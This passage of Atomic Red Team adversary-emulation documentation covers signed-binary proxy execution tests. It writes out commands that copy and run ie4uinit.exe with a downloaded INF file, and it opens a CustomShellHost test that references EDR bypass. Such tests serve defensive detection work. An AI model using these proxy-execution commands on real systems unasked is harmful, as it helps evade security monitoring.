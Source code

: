 #### Attack Commands: Run with `command_prompt`!

```cmd
copy #{Path_ie4uinit} %TEMP%\ie4uinit.exe
copy "#{Path_inf}" %TEMP%\ieuinit.inf
%TEMP%\ie4uinit.exe -BaseSettings
```

#### Cleanup Commands:

```cmd
del %TEMP%\ie4uinit.exe >nul 2>&1
del %TEMP%\ieuinit.inf >nul 2>&1
```

#### Dependencies: Run with `powershell`!

##### Description: ieuinit.inf must exist on disk at specified location (#{Path_inf})

##### Check Prereq Commands:

```powershell
if (Test-Path "#{Path_inf}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path "#{Path_inf}") -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1218/src/ieuinit.inf" -OutFile "#{Path_inf}"
```

<br/>
<br/>

## Atomic Test #13 - LOLBAS CustomShellHost to Spawn Process

This test simulates an adversary copying `customshellhost.exe` and `calc.exe` from `C:\windows\system32\` to `C:\temp\`, renaming `calc.exe` to `explorer.exe`.
Upon execution, customshellhost.exe will spawn calc.exe.
Note this will only work on Windows 10 or 11.
[LOLBAS](https://lolbas-project.github.io/lolbas/Binaries/CustomShellHost/)
[BishopFox](https://bishopfox.com/blog/edr-bypass-with-lolbins)

**Supported Platforms:** Windows

**auto_generated_guid:** b1eeb683-90bb-4365-bbc2-2689015782fe

#### Inputs:

| Name      | Description                  | Type | Default Value |
| --------- | ---------------------------- | ---- | ------------- |
| dest_path | Directory to copy files into | path | C:&#92;test   |
